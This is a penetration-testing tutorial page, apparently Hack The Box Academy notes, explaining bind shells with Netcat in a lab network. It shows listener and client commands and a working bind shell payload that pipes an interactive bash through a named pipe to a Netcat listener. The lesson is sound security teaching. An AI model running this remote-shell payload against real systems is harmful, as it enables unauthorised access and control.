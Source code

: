 # Bind Shells

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

## **Bind Example**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (8).png" alt=""><figcaption></figcaption></figure>

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

## Practicing with GNU Netcat

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

### **No. 1: Server - Target starting Netcat listener**

Once connected to the target box with ssh, start a Netcat listener:

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

### **No. 2: Client - Attack box connecting to target**

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

```bash
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received! 
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

{% hint style="info" %}
Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.
{% endhint %}

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

### **No. 2: Client - Connecting to bind shell on target**

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.
